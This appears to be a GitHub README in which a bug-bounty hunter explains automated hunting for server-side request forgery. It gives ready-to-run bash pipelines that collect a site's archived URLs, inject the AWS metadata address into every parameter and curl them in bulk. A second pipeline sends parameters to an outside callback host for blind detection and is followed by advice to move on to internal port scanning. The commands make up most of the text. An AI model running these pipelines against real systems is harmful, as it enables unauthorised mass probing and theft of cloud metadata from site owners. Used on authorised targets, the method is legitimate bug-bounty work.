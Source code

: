 # automation-bugBounty


Hi, everyone
My name is Manoj Kumar . In this article, I will be describing how I was able to Find ssrf vulnerability by bu automating it and leak private information amazon metadata, ec2 and cloud services.

<h2>TIP For looking for SSRF bug with automation:</h2><br>
<h4>Tools Requried:</h4><br>

gf (tomnomnom) — https://github.com/tomnomnom/gf <br>
qsreplace(tomnomnom) — https://github.com/tomnomnom/qsreplace <br>
ffuf — https://github.com/ffuf/ffuf <br>
gau(Corben) — https://github.com/lc/gau <br>
waybackurls(tomnomnom) — https://github.com/tomnomnom/waybackurls <br>

<b>Case#1 — — Accessing SSRF metadata with automation by just using curl and bash </b>

Here get access to internal metadata by ssrf we will collect all URL from way-back machine and look for access the internal data by ssrf
Suppose the the target is targetme.com
Now here process the process for find the ssrf to access internal metadata
Command for getting the URL:

<p style="color:blue;">waybackurl targetme.com >> blindssrftesturl.txt </p>
<p style="color:blue;"> gau -subs targetme.com >> blindssrftesturl.txt </p>

<p style="color:blue;"> cat blindssrftesturl.txt | sort -u |anew | httpx | qsreplace ‘http://169.254.169.254/latest/meta-data/hostname’ | xargs -I % -P 25 sh -c ‘curl -ks “%” 2>&1 | grep ”compute.internal” && echo “SSRF VULN! %”’ </p>
ohhh….yeah………………………

<b>Case#2 — — Find Blind SSRF with automation by just using curl and bash</b>
Now in order to look for blind ssrf we need to get all the URL for testing the blind ssrf we can get URL from way-back machine.
Suppose the the target is targetme.com
Now here process the process for find the Blind ssrf
Command for getting the URL:

<p style="color:blue;">waybackurl targetme.com >> blindssrftesturl.txt</p>
<p style="color:blue;">gau -subs targetme.com >> blindssrftesturl.txt</p>

After Getting all URLS we will sort all the URL and resolve it remove false positive:
<p style="color:blue;">cat blindssrftesturl.txt | sort -u |anew | httpx |tee -a prefinal_ssrftesturl.txt</p>
Now we will used gf for extracting all URL which have parameter vulnerable for ssrf:
<p style="color:blue;">cat prefinal_ssrftesturl.txt | gf ssrf >> final_ssrftesturl.txt</p>
Finally we will used FFUF and burp collabrator server or you can use pingb.in for automating it:
<p style="color:blue;">cat final_ssrftesturl.txt |qsreplace “Burp collaborator server” >> ssrf_auto-ffuf.txt</p>
<p style="color:blue;">ffuf -c -w ssrf_auto-ffuf.txt -u FUZZ</p>
Then check for any dns pingback hit you burp collaborator server.
IF you get any ping back and go for internal port scanning.
ohhh….yeah………………………….
Takeaway
I’m sure that a lot of security researcher had already see there process but this how I approach for find ssrf , and i have reported many in HackerOne using this process, .I hope this will help to find more ssrf
That’s one of the reasons why I wanted to share my experience. also to highlight other techniques to exploit such vulnerability.



